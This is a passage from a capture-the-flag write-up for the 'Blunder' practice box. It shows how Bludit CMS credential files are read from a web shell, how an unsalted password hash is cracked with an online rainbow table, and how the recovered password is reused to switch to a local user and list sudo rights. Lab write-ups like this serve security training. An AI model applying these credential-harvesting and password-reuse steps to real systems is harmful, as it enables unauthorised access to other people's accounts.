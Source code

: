 ```
        "role": "author",
        "password": "be5e169cdf51bd4c878ae89a0a89de9cc0c9d8c7",
        "salt": "jqxpjfnv",
<...>
```

We already know fergus's password, but now we can potentially crack admins. Let's check the users.php in the other version of Bludit installed.

```
www-data@blunder:/var/www/bludit-3.10.0a/bl-content/databases$ cat users.php
<?php defined('BLUDIT') or die('Bludit CMS.'); ?>
{
    "admin": {
        "nickname": "Hugo",
        "firstName": "Hugo",
        "lastName": "",
        "role": "User",
        "password": "faca404fd5c0a31cf1897b823c695c85cffeb98d",
<...>
```

One of the first things we typically do when gaining access to a box is look at /etc/passwd and scan the /home folder. If we've done that already here, we will recognize Hugo as one of the local users and the one with the user.txt flag, so this is promising. Since his password is unsalted, unlike the admins, we can quickly check a rainbow table to see if it has been cracked. Checking <a hred="https://crackstation.net">CrackStation</a> we see

![cracked](/assets/img/writeups/blunder_cracked.png)

Let's see if he also uses this password for his Linux user account.

```
www-data@blunder:/var/www/bludit-3.10.0a/bl-content/databases$ su hugo
Password: Password120
hugo@blunder:/var/www/bludit-3.10.0a/bl-content/databases$ whoami
hugo
```

We now have access as user hugo and can access the user.txt flag.




<h3 align="center">On To Root!</h3>

 The first thing we do is check to see what privileges are available to us by using **sudo -ll**

```
hugo@blunder:~$ sudo -ll
Password: Password120

Matching Defaults entries for hugo on blunder:
    env_reset, mail_badpass,
 secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hugo may run the following commands on blunder:

Sudoers entry:
    RunAsUsers: ALL, !root
    Commands:
        /bin/bash
hugo@blunder:~$ 
```
